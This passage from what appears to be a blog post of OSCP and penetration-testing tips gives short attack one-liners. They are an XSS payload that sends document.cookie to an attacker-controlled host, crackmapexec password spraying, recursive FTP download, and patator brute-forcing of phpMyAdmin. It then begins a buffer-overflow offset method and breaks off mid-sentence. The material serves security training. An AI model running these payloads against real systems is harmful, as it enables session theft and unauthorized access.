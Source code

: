 **Note:** this is more of a pentest trick than an OSCP tip, but you got the gist of it.

### 6. Want some cookies?

```
<script>document.write("<img src='http://<IP> or <request bin>'"+document.cookie+"');</script>
```

### 7. Want to check who has a terrible AD passwords? (username = password)

```
crackmapexec smb <any ip in the domain> -u users.lst -p users.lst  -d domain --no-bruteforce
```

### 8. Want to recursively download all the files on an FTP server to grep locally?

```
wget -r ftp://user:pass@serv
```

### 9. Want to brute-force phpmyadmin over a socks proxy?

```
patator.py http_fuzz proxy_type=socks5 proxy=localhost:1080 url=http://IP/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&target=index.php&lang=en&token=' 0=/usr/share/wordlists/rockyou.txt before_urls=http://IP/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Access denied for user '
```

If nothing works, it might be:

## Buffer Overflow

Nothing new here, just the same method as explained in the PEN 200 course, with my annotations.

### 1. Find the overflow:

Just try with lots of characters until you get a crash, or a `connection refused` if you are remote.

### 2. Find the offset:

```
msf-pattern_create -l <arbitrarily large number> -s abcdefghijklmnopqrstuvwxyz,ABCDEF,0123456789
```

I used a custom charset because I noticed that the string generated by msf-pattern_create did not always crash the target, and for a curious reason, this worked most of the time.

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/patternCrash.png)

Once the string has been sent, and a crash has been provoked, get the EIP value (reverse it if it comes from Immunity) and check for the offset using:
